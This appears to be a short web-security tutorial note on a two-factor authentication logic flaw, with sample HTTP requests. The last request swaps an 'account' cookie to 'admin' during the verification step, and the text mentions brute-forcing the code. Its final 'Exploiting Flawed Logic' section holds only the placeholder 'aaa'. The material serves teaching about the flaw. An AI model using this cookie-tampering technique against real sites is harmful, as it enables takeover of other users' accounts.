 Sometimes flawed logic in two-factor authentication means that after a user has completed the initial login step, the website doesn't adequately verify that the same user is completing the second step.
## Example Logic
A user logs in with their credential in the first step as follows:
```http
POST /login-steps/first HTTP/1.1
Host: target-website.com
...
username=carlos&password=1234
```
They are then assigned a cookie that relates to their account, before being taken to the second step of the login process:
```http
HTTP/1.1 200 OK
Set-Cookie: account=carlos
```
```http
GET /login-steps/second HTTP/1.1
Cookie: account=carlos
```
When submitting the verification code, the request uses this cookie to determine which account the user is trying to access:
```http
POST /login-steps/second HTTP/1.1
Host: target-website.com
Cookie: account=carlos
...
verification-code=qwerty
```
In this case, the attacker could login using their own credentials but then change the value of the `account` cookie to any username when submitting the verification code.
```http
POST /login-steps/second HTTP/1.1
Host: target-website.com
Cookie: account=admin
...
verification-code=qwerty
```
This is extremely dangerous if the attacker is then able to brute force the verification code, as it would allow them to login to any user accounts based entirely on their username.
## Exploiting Flawed Logic
aaa
